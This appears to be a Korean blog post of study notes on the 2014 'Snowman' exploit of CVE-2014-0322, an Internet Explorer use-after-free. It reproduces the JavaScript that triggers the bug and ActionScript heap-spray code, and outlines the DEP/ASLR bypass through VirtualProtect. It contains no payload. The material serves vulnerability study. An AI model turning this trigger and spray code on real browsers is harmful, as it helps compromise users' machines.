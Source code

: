 ```yaml
---
layout: post
title: "CVE-2014-0322 'Snowman' exploit"
date: 2014-05-10 01:12:08 +0900
comments: true
categories: 
---
```


[CVE-2014-0322 'Snowman' exploit](http://hdwsec.fr/blog/CVE-2014-0322.html)

crash 를 유발하는 JS.

    <script>
        function dword2data(dword) {
            var d = Number(dword).toString(16);
            while (d.length < 8)
                d = '0' + d;
            return unescape('%u' + d.substr(4, 8) + '%u' + d.substr(0, 4));
        }
     
     
        var g_arr = [];
        var arrLen = 0x250;
     
        function fun() {
     
            var a = 0;
            for (a = 0; a < arrLen; ++a) {
                g_arr[a] = document.createElement('div')
            }
             
            var b = dword2data(0xdeadc0de);
            var c = 0x1a1b2000;
            while (b.length < 0x360) {
                b += dword2data(0x1a1b2000)
            }
                     
            var d = b.substring(0, (0x340 - 2) / 2);
            try {
                this.outerHTML = this.outerHTML
            } catch (e) {}
             
            CollectGarbage();
     
            for (a = 0; a < arrLen; ++a) {
                g_arr[a].title = d.substring(0, d.length);
            }
        }
     
        function puIHa3() {
            var a = document.getElementsByTagName("script");
            var b = a[0];
            b.onpropertychange = fun;
            var e = document.createElement('SELECT');
            e = b.appendChild(e);
        }
                 
        puIHa3();
    </script>

Flash 에서 heap 을 할당하고, initialize 하고, `ExternalInterface.call()` 로 JavaScript function 을 호출한다. JavaScript function 에서는 use-after-free 를 발생시킨다. Flash timer handler 에서 할당된 heap 을 모니터하며 corruption 이 발생했는지를 주기적으로 감시한다. corrupt condition 이 발견되면 VirtualProtect 와 stack pivot 정보를 찾아 DEP / ASLR 을 바이패스하는 payload 를 만들어 수행시킨다.

### Heap Spraying

    <Object> 를 96 * 1024 (0x18180 == 98688) 개 할당한다.
    각각 s[0] ~ s[0x18180 - 1] 마다 Vector.<uint>(1024 - 16) 를 할당하고, 

    public function init_heap():void
    {
        var len:int = 0;
        var i:int = 0;

        /* Spray the integer vectors */
        this.s = new Vector.<Object>(0x18180);
        whlie (len < 0x18180)
        {
            this.s[len] = new Vector.<uint>(0x1000 / 4 - 16);
            for (i = 0; i < this.s[len].length; i++)
            {
                this.s[len][i] = 0x1a1a1a1a;
            }
            ++len;
        }

        /* Spray sound object ptr */
        this.sound = new Sound();
        this.spraysound = new Vector.<Object>(0x100);

        len = 0;
        while (len < 0x100)
        {
            this.spraysound[len] = new Vector.<Object>(0x1234);
            for (i = 0; i < this.spraysound[len].length; i++)
            {
                this.spraysound[len][i] = this.sound;
            }
            ++len;
        }
    }

### JavaScript use-after-free

### DEP bypass

    BOOL WINAPI VirtualProtect(
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD flNewProtect,
        PDWORD lpflOldProtect
    );

    BOOL WINAPI VirtualProtectEx(
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD flNewProtect,
        PDWORD lpflOldProtect
    );

    lpAddress [in]
    보호 특성을 변경할 가상 메모리의 기준 주소에 대한 포인터입니다.

    dwSize [in]
    변경할 메모리 페이지 영역의 크기(바이트)입니다.

    flNewProtect [in]
    적용할 메모리 보호 형식입니다.

    pflOldProtect [out]
    이전 메모리 보호 값에 대한 포인터입니다.
